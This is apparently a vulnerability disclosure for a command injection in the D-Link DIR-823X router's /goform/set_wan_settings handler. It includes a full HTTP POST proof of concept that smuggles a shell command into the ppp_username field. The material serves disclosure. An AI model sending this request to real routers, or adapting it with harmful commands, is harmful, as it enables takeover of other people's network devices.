




# D-Link DIR-823X 250416 set_wan_settings
### Overview
vendor: D-Link
product: DIR-823X
version: 20250416
type: Command Injection
### Vulnerability Description
D-Link DIR-823X 20250416 router has a serious command injection vulnerability. This vulnerability can be triggered through the route /goform/set_wan_settings.

### Vulnerability Details









In func sub_415028, the second parameter is not properly validated. In handler goform/set_wan_settings, the ppp_username parameter is not properly validated. Attackers can set malicious strings to perform injection attacks.

### POC
```
POST /goform/set_wan_settings HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 90
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/login.html
Cookie: sessionid=8AF52324FBFB189C5ECAC9296E93BDB8; token=2D3A6BB828203DCA06962CF2DA71A02E
Priority: u=0

token=2D3A6BB828203DCA06962CF2DA71A02E&proto=pppoe&ppp_username="|| ls #&ppp_passwd=111111
```
